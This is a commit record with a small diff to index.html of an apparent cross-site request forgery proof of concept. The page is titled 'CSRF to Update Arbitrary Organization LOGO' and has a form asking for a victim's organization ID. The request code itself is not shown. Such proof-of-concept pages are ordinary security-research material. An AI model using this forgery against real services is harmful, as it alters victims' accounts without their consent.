

Before and after one commit to cybersagor/ProfilePhotoCSRF, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,6 +1,6 @@
 <html>
   <body>
-    <h2 style="font-family: Arial, sans-serif; color: #333; text-align: center;">CSRF to Update Arbitrary Organization LOGO</h2>
+    <br><br><br><h2 style="font-family: Arial, sans-serif; color: #333; text-align: center;">CSRF to Update Arbitrary Organization LOGO</h2>
 <form action="#" method="POST" onsubmit="event.preventDefault(); submitRequest();" style="max-width: 400px; margin: 0 auto; padding: 20px; background-color: #f9f9f9; border-radius: 8px; box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);">
   <label for="organizationId" style="font-family: Arial, sans-serif; color: #555; font-size: 16px; margin-bottom: 8px; display: block;">Fill the victim's Organization ID:</label>
   <input type="text" id="organizationId" name="organizationId" required
```
